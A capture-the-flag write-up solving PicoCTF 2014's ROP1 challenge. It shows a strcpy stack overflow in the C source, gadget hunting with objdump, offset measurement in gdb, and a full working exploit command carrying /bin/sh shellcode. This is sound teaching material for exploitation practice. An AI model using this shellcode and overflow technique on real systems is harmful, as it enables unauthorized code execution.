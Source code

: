 #ROP1

This is a challenge from PicoCTF 2014 on return oriented programming. We are given a vulnerable C code shown below.

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void be_nice_to_people(){
    gid_t gid = getegid();
    setresgid(gid, gid, gid);
}

void vuln(char *name){
    char buf[64];
    strcpy(buf, name);
}

int main(int argc, char **argv){
    be_nice_to_people();
    if(argc > 1)
        vuln(argv[1]);
    return 0;
}
```

#Solution
What should come to our attention is the use of ```strcpy()``` function. This does not check for the length of the string we put in, so we are able to overwrite the content of the stack.
As the name of the challenge suggests, we are to implement ROP, and what we need here is so-called ROP-gadget that alters the value of the instruction pointer %eip 
in order to execute our shellcode.
Conveniently, the ```strcpy``` function returns the pointer to the string argument (=buf), and therefore, the value of %eax is exactly the address of buf in the stack.
What we can manipulate here is string %eax points to, so we want to set %eip to point to the address of %eax (by executing the instruction ```call %eax```). We can find such ROP-gadgets using objdump as well as grep
```
objdump -d rop1 | grep "call.*eax"
```
The first one in the list is ```8048d86```, so let's use this one.

Next, we need to figure out the distance between the address of %eax and the saved %eip in the stack. If we could overwrite this %eip to point to the instruction address of ROP-gadget,
we can set %eip to the address of %eax. On the server, we were equipped with gdb. Set a breakpoint at vuln() and run the program.
```
(gdb) b vuln
```
We can now check the address of saved eip in the stack.
```
(gdb) info frame
```
This should print something like the following (the address may differ)
```
Saved registers: 
 ebp at 0xffffd728, eip at 0xffffd72c
```
Ok, now let' see where %eax points to when it returns from ```strcpy()```
```
(gdb) info register eax
eax         0xfffd6e0
```
Take the difference, and this gives ```76```. This tells us that we should pass in a string of length 76 to fill the gap, which is followed by the 4 bytes giving the address of the ROP gadget we identified previously. 
Not over yet. The string we pass in must contain the shellcode we want to execute. Let's use this one for now
```
”\xeb\x18\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xb0\x0b\xcd\x80\xe8\xe3\xff\xff\xff/bin/sh”
```
Note that this system is little-endian. So we had to reverse the order of the hex digits: this applies to the address of the ROP-gadget too. 
Finally, we just feed this to the program as follows 
```
./rop1 $(python -c 'print "\xeb\x18\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xb0\x0b\xcd\x80\xe8\xe3\xff\xff\xff/bin/sh"+ "a"*38 + "\x86\x8d\x04\x08" ')
```
The flag is ```theres_no_need_to_guess```
